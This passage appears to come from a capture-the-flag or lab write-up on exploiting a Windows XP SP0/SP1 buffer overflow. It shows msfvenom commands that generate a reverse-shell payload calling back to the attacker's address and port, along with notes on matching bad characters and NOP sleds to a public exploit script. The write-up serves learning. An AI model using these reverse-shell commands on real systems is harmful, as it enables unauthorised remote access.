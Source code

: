 It looks like there's a buffer overflow of some sort happening here. There is mention of Windows XP SP0/SP1, so we're off to a good start there. 

I don't want the payload to be a meterpreter shell, so I update that to be windows/shell_reverse_tpc (indicating it is unstaged) and update the LHOST and LPORT accordingly:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```
{: .warning }
We can't just run this .py file against the victim and pray for the best. We need to generate MSFVENOM ouput and overwrite what is in the python script before we start attacking.   
{:info}
In this section, what I'm doing is running the msvenom script, reviewing the output, comparing with the example in the python script's details and modifying accordingly. 

After a first run and comparing with the exploit, we want the variable output to read 'shellcode' and not 'buf'. Researched how to perform this and see that the -v switch should get us where we need to go. Updated the script:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode
```


Inside of the original python script, the author points out the following:
```
#Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
```
This means we'll have to adjust how many \x90's there are in the first 3 or 4 lines of the python code to get it to line up with the 380 bytes payload expectation.

At this point, I'm about an hour in and perhaps am over-thinking it. I move on to researching other methods of exploitation.
